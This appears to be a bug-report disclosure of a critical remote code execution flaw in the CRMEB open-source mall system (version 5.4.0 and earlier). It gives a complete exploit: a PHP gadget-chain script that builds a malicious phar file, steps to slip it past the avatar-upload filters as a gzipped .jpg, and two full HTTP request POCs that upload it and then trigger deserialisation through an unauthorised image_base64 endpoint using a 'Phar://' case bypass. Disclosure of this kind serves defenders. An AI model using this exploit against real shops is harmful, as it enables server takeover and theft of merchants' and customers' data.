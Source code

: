 BUG_Author:

Rui Jie

Affected version:

Version<=5.4.0

Vendor:
https://www.crmeb.com/

CRMEB open source mall system

Software:
https://gitee.com/ZhongBangKeJi/CRMEB

https://github.com/crmeb/CRMEB


Vulnerability File:

app/api/controller/v1/PublicController.php

app/common.php

Description:
 A vulnerability categorised as critical has been identified in CRMEB. This affects the put_image section of the file common.php. Manipulation of the image/code parameter results in phar deserialisation enabling the RCE
 
 It's a complicated process.
 
 This system is based on thinkphp6 again, I can get the available deserialisation chain through code audit
 
```php
 <?php  
  
namespace think\model\concern;  
  
trait Attribute  
{  
    private $data = ["evil_key" => "calc"];  
    private $withAttr = ["evil_key" => "system"];  
}  
  
namespace think;  
  
abstract class Model  
{  
    use model\concern\Attribute;  
    private $lazySave;  
    protected $withEvent;  
    private $exists;  
    private $force;  
    protected $table;  
    function __construct($obj = '')  
    {  
        $this->lazySave = true;  
        $this->withEvent = false;  
        $this->exists = true;  
        $this->force = true;  
        $this->table = $obj;  
    }  
}  
namespace app\model\product\product;  
  
use crmeb\traits\ModelTrait;  
use think\Model;  
  
  
class StoreProductCate extends Model  
{  
}  
  
$a = new StoreProductCate();  
$b = new StoreProductCate($a);  
echo urlencode(serialize($b));  
$phar = new \Phar('x.phar');  
$phar->stopBuffering();  
$phar->setStub( 'GIF89a'.'<?php __HALT_COMPILER();?>');  
$phar->addFromString('test.phar', 'test');  
$phar->setMetadata($b);  
$phar->stopBuffering();
```
This generates a phar file containing the available serialisations, I try to pop up the calculator locally
After any user has logged in, we can try to upload this file as an avatar, but there are some filters here

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122332062.png)
Both the suffix and the file content are restricted here
We can try to gzip the phar file to bypass the content detection, modify the extension to .jpg renamed 123.jpg

I'll put 123.jpg here
![123.jpg](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130004529.jpg)

POC1

Note that here I'm using yakit's tags directly to read the contents of the local file 123.jpg before uploading it

```POST /api/upload/image HTTP/1.1
Host: 127.0.0.21
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3eJTGWU51qa6ag3o
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Dest: empty
Referer: http://127.0.0.21/pages/users/user_info/index
Origin: http://127.0.0.21
Accept-Encoding: gzip, deflate, br, zstd
Cookie: cb_lang=zh-cn; PHPSESSID=84e2385486352b76586e45157fd93cda; WS_ADMIN_URL=ws://127.0.0.21/notice; WS_CHAT_URL=ws://127.0.0.21/msg; XDEBUG_SESSION=11675
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
Sec-Fetch-Mode: cors
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiJkNDFkOGNkOThmMDBiMjA0ZTk4MDA5OThlY2Y4NDI3ZSIsImlzcyI6IjEyNy4wLjAuMjEiLCJhdWQiOiIxMjcuMC4wLjIxIiwiaWF0IjoxNzIwNzc0NDU2LCJuYmYiOjE3MjA3NzQ0NTYsImV4cCI6MTcyMzM2NjQ1NiwianRpIjp7ImlkIjoxLCJ0eXBlIjoiYXBpIn19.LeWiJQ-aB4EqFsXuWEur2iNuybXLyLzusTepZC896Gg
Sec-Fetch-Site: same-origin
Content-Length: 1437

------WebKitFormBoundary3eJTGWU51qa6ag3o
Content-Disposition: form-data; name="filename"

pics
------WebKitFormBoundary3eJTGWU51qa6ag3o
Content-Disposition: form-data; name="pics"; filename="123.jpg"
Content-Type: image/jpeg

{{file(D:\\123.jpg)}}
------WebKitFormBoundary3eJTGWU51qa6ag3o--

```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130007396.png)


You can get the location of the uploaded image
For example, here it is `http://127.0.0.21/uploads/store/comment/20240713/9bcb28a14962bb8fb64b0652d2212ef4.jpg`
Now we can trigger it with the  `put_image` method in app/common.php(This is an unauthorised interface)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122345869.png)
There is a filter on phar://, which we can bypass with Phar://.
The readfile function will trigger the phar deserialisation implementation rce

POC2
```
POST /api/image_base64 HTTP/1.1
Host: 127.0.0.21
Cookie: cb_lang=zh-cn; PHPSESSID=c3db7bedde04b37c0bc6a5699dbde774
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Referer: http://crmeb.cc//api/image_base64
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cache-Control: max-age=0
Content-Length: 53

{"image":"Phar://./uploads/store/comment/20240713/9bcb28a14962bb8fb64b0652d2212ef4.jpg","code":""}
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122354438.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130009247.png)

However, it should be noted that it uses the CacheService::remember method to try to get the Base64 encoding of the $imageUrl from the cache, which should be changed after the first execution

This means you may need to upload once, trigger once.

Now we can execute any command to implement RCE！
